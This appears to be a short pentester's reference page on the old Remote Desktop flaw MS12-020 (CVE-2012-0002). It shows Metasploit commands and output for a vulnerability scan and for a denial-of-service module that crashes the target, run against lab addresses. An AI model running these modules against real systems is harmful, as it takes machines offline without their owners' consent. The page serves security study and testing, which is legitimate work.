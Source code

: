 ```yaml
---
title : "CVE-2012-0002"
# pre : ' '
description : "Vulnerabilities in Remote Desktop Could Allow Remote Code Execution."
date : 2020-03-23T11:21:55+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2012-0002 | MS12-020

- MS12-020
- CVE-2012-0002
- CVE-2012-0152

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
```

## Examples

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 10.10.10.16:3389      - 10.10.10.16:3389 - The target is vulnerable.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit DoS

Will bluescreen the target.

```plain
msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 10.10.10.15
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 10.10.10.15

[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - 210 bytes sent
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Checking RDP status...
[+] 10.10.10.15:3389 - 10.10.10.15:3389 seems down
[*] Auxiliary module execution completed
```

## URL List

- [Docs.microsoft.com - ms12-020](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020)
